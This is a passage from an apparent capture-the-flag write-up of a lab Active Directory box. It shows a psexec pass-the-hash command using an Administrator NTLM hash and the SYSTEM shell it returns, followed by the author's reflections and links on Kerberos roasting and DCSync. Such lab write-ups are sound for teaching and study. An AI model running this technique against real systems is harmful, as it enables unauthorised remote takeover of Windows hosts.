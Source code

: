 ## Passing The Hash

From our port scan, we know that we have access to the SMB port, so psexec is an option.

`./psexec.py EGOTISTICAL-BANK.LOCAL/Administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff`

```
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.175.....
<SNIP>
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

We are passing the NTLM hashes here. 

You can also use the Kerberos key. But there more details to pay attention to when you authenticate with Kerberos including time sync and using a FQDN.

# Thoughts

This was my first Active Directory box. It spurred me to learn a lot more about Active Directory and Kerberos. 

It is a very educational box for me.

**References**

*Kerberos and AS-REP Roasting*

* https://www.tarlogic.com/en/blog/how-kerberos-works/
* https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#as-rep-roasting
* https://docs.microsoft.com/en-us/windows/win32/secauthn/ticket-granting-tickets
* https://www.tarlogic.com/en/blog/how-to-attack-kerberos/

*Getting A Shell*

* https://hacks.biz/evilwinrm-the-ultimate-winrm-shell-for-pentesting/
* https://eaneatfruit.github.io/2019/08/18/Offensive-Lateral-Movement/

*DCSync*

* https://github.com/backlion/Offensive-Security-OSCP-Cheatsheets/blob/master/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync.md
* https://pentestlab.blog/tag/dcsync/
